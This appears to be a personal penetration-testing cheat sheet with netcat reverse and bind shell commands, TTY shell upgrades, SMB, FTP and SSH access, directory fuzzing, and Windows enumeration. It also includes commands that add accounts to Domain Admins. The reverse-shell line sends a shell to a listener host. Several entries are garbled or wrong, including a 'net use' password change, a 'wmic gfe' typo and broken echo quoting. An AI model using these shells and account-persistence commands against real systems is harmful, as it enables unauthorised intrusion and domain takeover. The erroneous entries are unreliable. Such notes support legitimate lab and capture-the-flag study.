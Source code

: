# NMAP
~~~
nmap -T4 -p- -A <target ip>
~~~
# Python Webserver
~~~
python3 -m http.server <port>
~~~

# Netcat
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~
## Reverse Shell
### Attacker Listener
nc -nlvp 4444

### Target Connecting
nc 192.168.1.2 4444 -e /bin/sh

## Bind Shell
### Attacker Connecting
nc 192.168.1.2 4444

### Target Listener
nc -nvlp 4444 -e /bin/sh
~~~

# TTY Shell
~~~
## Using python
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'

## Echo
echo 'os.system('/bin/bash')'

## sh
/bin/sh -i

## bash
/bin/bash -i

## Perl
perl -e 'exec "/bin/sh";'

## From within VI
:!bash
~~~
# System Info
~~~
uname -a
~~~
# Privilege Escalation Check
~~~
sudo -l
~~~
# OpenVPN
~~~
sudo openvpn <file>.vpn
~~~
# ffuf
~~~
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://<ip>/FUZZ
~~~
# SSH
~~~
#Specify specific file to authenticate
ssh -i <privatekeyfile> <username>@<ipaddress>
ssh -i id_rsa john@10.10.6.100
~~~
# Net use/user/group/share/..
~~~
# change password
net use <username> <new password>
net use <username> <new password> /domain

# Check all users that we can find
net user

# connect user
net use \<fqdn | ip address>\ipc$ /user:<username>
net use \<fqdn | ip address>\ipc$ /user:<domain>\<username>

# add user to local group
net localgroup <groupname> <username> /add

# add user to a domain group
net group "Domain Admins" <username> /add /domain

# add user to a domain
net user <new username> /add /domain


~~~
# smbmap
~~~
smbmap -H <targetip> -u 'anonymous'
smbmap -H <targetip> -u 'guest'
~~~
# SMB
![afbeelding](https://github.com/user-attachments/assets/f0f99542-4082-4e29-8b88-f752714038f5)
https://www.computerhope.com/unix/smbclien.htm 
~~~
* You can make use of // or \\\\...\\
* Don't forget sudo if you want to download to your own folder
## List SMB shares
smbclient -L \\\\<target ip>\\

## Connect to SMB share
smbclient \\\\<target ip>\\<share>
smbclient \\\\<target ip>\\<share> -U <user>
smbclient \\\\<target ip>\\<share> -U <user>%<password>
smbclient \\\\<target ip>\\<share> -U <user> -p <port>

smbclient "//<target ip>/<share with space in name>" -U "<domain>\\<username>"
smbclient "\\\\<target ip>\\<share with space in name>" -U "<domain>\\<username>"

## Commands
cd
dir
put
more
get <remote-file> <local-file name>
exit
~~~
# FTP
~~~
Command/Option | Description
ftp ftp.example.com	 |Connect to an FTP server
open ftp.example.com	| Connect to an FTP server
user username password	| Log in with username and password
ls	| List files in the current directory
cd /path/to/dir	| Change remote directory
get file.txt	| Download a file from the server
put file.txt	| Upload a file to the server
mget *.txt	| Download multiple files
mput *.txt	| Upload multiple files
delete file.txt	| Delete a file on the server
mkdir newdir	| Create a new directory on the server
rmdir olddir	| Remove a directory on the server
bye	| Close the connection and exit
~~~

# Windows System-User-Network Enumeration
~~~
# got to shell
shell

# hostname
hostname

# user id - privileges - groups
getuid
whoami
whoami /priv
whoami /groups
net user
net user <username> # information about user

# system info
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS version" /C:"System Type"

# checking updates
wmic qfe
wmic gfe Caption,Description,HotFixID,InstalledOn

# Disk Info
wmic logicaldisk
wmic logicaldisk get caption,description,providername

~~~
